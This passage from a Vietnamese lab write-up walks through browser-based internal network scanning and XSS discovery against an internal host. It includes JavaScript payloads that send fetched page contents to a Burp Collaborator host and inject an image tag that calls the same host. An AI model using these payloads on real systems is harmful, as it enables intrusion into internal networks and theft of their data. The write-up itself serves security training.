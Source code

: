```
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
    location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
  }
  ))
  .catch(e => {
  if(q.length) {
    q.shift()(wait);
  }
  });
  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()(wait);
  }
  }, wait);
}
</script>

```
Như chúng ta có thể thấy, chúng ta đã định vị máy chủ nội bộ (trong trường hợp này) là: *192.168.0.212:8080*

##### Bước thứ hai: tìm lỗ hổng trong máy chủ nội bộ

Ở bước này chúng ta thực hiện tương tự bước đầu tiên nhưng khác biệt ở phần payload như sau : 

Đoạn code này đang cố gửi username và password đi, nếu như username và password được trả về trong response thì chứng tỏ rằng có thể dẫn đến lỗi XSS.
```
<script>
function xss(url, text, vector) {
  location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
  fetch(url).then(r=>r.text().then(text=>
  {
    xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
  }
  ))
}

fetchUrl("http://192.168.0.212:8080", "http://bbq6iwl2yh0xqnyyqkm0r8w9g0mqaf.burpcollaborator.net");
</script>

```
Như chúng tôi mong đợi tên người dùng được phản ánh trong phản hồi (trong hình).
